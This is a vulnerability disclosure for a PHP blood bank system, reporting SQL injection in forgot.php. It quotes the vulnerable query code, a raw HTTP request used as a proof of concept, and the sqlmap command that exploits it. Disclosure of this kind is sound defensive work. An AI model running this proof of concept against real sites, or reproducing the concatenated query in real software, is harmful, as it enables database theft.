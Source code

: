 # blood-bank-system-in-php forgot.php via sql injection

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

forgot.php

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

network remote.

## Vulnerability Type

remote sql injection

## Root Cause

In forgot.php , SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### forgot.php

In the source code，the    useremail parameter is not filtered and concatenated into the SQL statement.        

```
if(isset($_POST['sub']))
      {

        $useremail=$_POST['useremail'];
        $q=$db-> prepare("SELECT * from login where useremail='$useremail'");
        $q->execute();
        }
```

​                                                                                                                                                                                                                                                                                                                                                                                                                                                       

![mmexport1727539131244](https://github.com/user-attachments/assets/3e0df60a-195a-4e17-b698-3345386ac14c)



## **Vulnerability recurrence**

### **POC**

```
POST /forgot.php/ HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/forgot.php/
Cookie: PHPSESSID=0260m5gv7b100hhs03pjumevku
Upgrade-Insecure-Requests: 1
Priority: u=0, i

tab=on&useremail=123%40aa.com&sub=Submit+Email
```

save as 1.txt

excute the command.

```
python sqlmap.py -r "E:\1.txt" 
```

![mmexport1727539128867](https://github.com/user-attachments/assets/b52c14b7-867f-4e52-95d1-69bdfbd2cca5)

